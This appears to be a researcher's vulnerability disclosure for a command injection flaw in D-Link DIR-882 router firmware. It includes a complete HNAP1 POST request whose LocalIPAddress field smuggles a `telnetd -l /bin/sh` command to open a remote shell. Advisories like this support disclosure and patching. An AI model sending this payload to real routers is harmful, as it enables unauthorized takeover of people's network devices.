





# D-Link Vulnerability

Vendor:D-Link

Product:DIR_882

Version:DIR_882_FW1.30B06_Hotfix_02(Download Link:https://support.dlink.com/productinfo.aspx?m=DIR-882-US)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

`LocalIPAddress` is directly passed by the attacker.After that, call the function sub_45651C.

<div  align="center"></div>

As you can see here, the input has not been checked.

<div  align="center"></div>

In `libfcgi.so` binary:

Eventually, the initial input cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `Username` as **`telnetd -l /bin/sh -p 9999 -b 0.0.0.0`192.168.100.153**, and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: 9E6B4A7474510C8EA53D489BB0B327DF 1640594925146
Content-Length: 787
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/VirtualServer.html
Cookie: uid=n9g9DHeR

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>pjqwudi</VirtualServerDescription>
					<ExternalPort>9</ExternalPort>
					<InternalPort>9</InternalPort>
					<ProtocolType>UDP</ProtocolType>
					<ProtocolNumber>17</ProtocolNumber>
					<LocalIPAddress>`telnetd -l /bin/sh -p 9999 -b 0.0.0.0`192.168.100.153</LocalIPAddress>
					<ScheduleName>Always</ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"></div>


## Result

Get a shell!

<div  align="center"></div>
